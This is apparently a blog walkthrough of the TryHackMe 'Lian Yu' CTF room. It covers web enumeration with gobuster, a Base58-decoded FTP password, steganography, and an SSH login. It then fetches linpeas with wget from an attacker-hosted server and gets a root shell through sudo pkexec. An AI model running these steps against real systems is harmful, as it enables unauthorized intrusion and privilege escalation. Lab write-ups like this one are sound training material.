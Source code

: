 ```yaml
---
layout: post
title: " Lian Yu - TryHackMe"
date: 2020-07-13
ctf: true
excerpt: "Walkthrough for Lian Yu on TryHackme"
tags: [Lian Yu, TryHackMe, privilege escalation, steganography, website enumeration]
comments: false
---
```


Lian Yu is another beginner level challenge on [TryHackMe](https://www.tryhackme.com). Below is a walkthrough to Find all the flags.

First, let's run nmap with **nmap -sC -sV -T4 [machine ip]**

![Lian Yu nmap](/assets/img/LianYu1.png)

It appears that there is ftp, ssh, tcp, and rpc open. Let's start by taking a look at the website in a web browser. It appears that this website is based on the DC comic book hero, Arrow.

![Lian Yu website](/assets/img/LianYu2.png)

Let's use gobuster to enumerate the website with **gobuster dir -u [machine ip] -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt**. After a bit, an **island** subdirectory shows up.

![Lian Yu gobuster](/assets/img/LianYu3.png)

Let's visit the page. It looks like there's a code word, but it doesn't appear to be there. Highlighting the entire page causes it to show up, however.

![Lian Yu island page](/assets/img/LianYu4.png)

Lian_Yu appears in bold, so let's try both ftp and ssh as Lian_Yu with the code word we uncovered. Unfortunately, neither one was successful.

![Lian Yu failed ssh and ftp](/assets/img/LianYu5.png)

We will make note of this code word for later. Next, the hint for the first question states that the directory is in numbers. It also appears to be 4 digits in length. Let's create a file that contains numbers from 0000 to 9999 with the following **seq -w 9999  > pins.txt**. This will create a text file (pins.txt) with this number range in it. Now let's run **gobuster dir -u http://[machine ip]/island -w pins.txt** and see what shows up. It appears there is another subdirectory of **2100** underneath island. This is the answer to the first question.

![Lian Yu gobuster 2100](/assets/img/LianYu6.png)

There is a video on this page, but it appears to be a part of the first episode of the Arrow television series, which doesn't seem to have any relevance to this challenge. When I look at the source of the page, however, there is a comment as shown below.

![Lian Yu 2100 page source](/assets/img/LianYu7.png)

The hint for this question mentions searching for a file by extension, maybe .ticket is the file extension? I navigated to the dirbuster wordlist with **cd /usr/share/wordlists/dirbuster** and ran **pw-inspector -i directory-list-lowercase-2.3-medium.txt -m 11 - M 11 -o ~/arrow.txt**. I knew the file was 11 characters in length before the potential extension of ticket based on the format of the answer in TryHackMe. I then used this as the wordlist in gobuster under the /island/2100 directory as follows **gobuster dir -u http://[machine ip]/island/2100/ -w arrow.txt -x .ticket**. Within a couple of moments it uncovers **green_arrow.ticket**.

![Lian Yu green_arrow.ticket](/assets/img/LianYu8.png)

Let's navigate to that page. We are provided with a "token". The hint states it appears to be base, so use cyberchef as recommended and you will eventually figure out it was encoded in Base58. This decoded is the ftp password, which is the answer to the 3rd question.

![Lian Yu Base 58 decode](/assets/img/LianYu10.png)

Let's try logging in to the site via ftp, as we have the password. Remember the code word that we uncovered earlier? Let's see if that's the user.

![Lian Yu FTP Access](/assets/img/LianYu11.png)

Success! Let's see what's on this ftp site.

![Lian Yu ftp directory listing](/assets/img/LianYu12.png)

Let's save all these pictures and see what they are with **get Leave_me_alone.png, get Queen's_Gambit.png,** and **get aa.jpg**.

![Lian Yu get files](/assets/img/LianYu13.png)

Let's type **quit** and then open up these images to see what's in them. **aa.jpg** and **Queen's_Gambit.png** open fine, but there is an error when attempting to open **Leave_me_alone.png**. .jpg files can be used in steganography, so let's use stegcracker with **stegcracker aa.jpg**. After a few moments, it uncovers the password of **password**, and extracts the contents to **aa.jpg.out**.

![Lian Yu stegcracker](/assets/img/LianYu14.png)

Running **file aa.jpg.out** reveals that this is a zip file, let's rename it to .zip with **mv aa.jpg.out aa.zip**

![Lian Yu change file to zip](/assets/img/LianYu15.png)

Inside the zip files are two files, one is a 5 character name, which is the answer to the next question.

![Lian Yu Open Zip File](/assets/img/LianYu16.png)

The five letter file name includes the ssh password. However, we do not have a username and vigilante does not work this time around. Let's reconnect as vigilante via ftp and type **cd ..** followed by **ls** to list all the user directories. There is another user directory present.

![Lian Yu enumerate user folders via ftp](/assets/img/LianYu17.png)

It appears that slade is another user. Let's try logging in via ssh as slade with **ssh slade@[machine ip]** and utilize the password uncovered in the zip file earlier. Success, let's run **ls** and a user.txt file is there. Let's run **cat user.txt** to uncover the user flag.

![Lian Yu ssh connection](/assets/img/LianYu19.png)

Let's use linpeas to enumerate this host for interesting files. First, let's server up an http server on your attacking pc with **python3 -m http.server**

![Lian Yu Python HTTP Server](/assets/img/LianYu20.png)

Now, let's navigate to the /tmp folder on our victim with **cd /tmp** since it's typically a world writeable directory. Next, let's use **wget http://[attacker ip]:8000/linpeas.sh** followed by **chmod 777 linpeas.sh** and finally **./linpeas.sh** to start enumerating our host. Unfortunately, this does not turn up much. Let's run **sudo -l** and see what shows up.

![Liam Yu sudo -l](/assets/img/LianYu22.png)

Awesome, we can execute pkexec as sudo. Let's run **sudo /usr/bin/pkexec /bin/sh**. Now we have a root shell.

![Lian Yu Root Shell](/assets/img/LianYu23.png)

Now let's run **cd /root**, followed by **ls**, and then finally, **cat root.txt** to get the final flag.

![Lian Yu Root Flag](/assets/img/LianYu24.png)

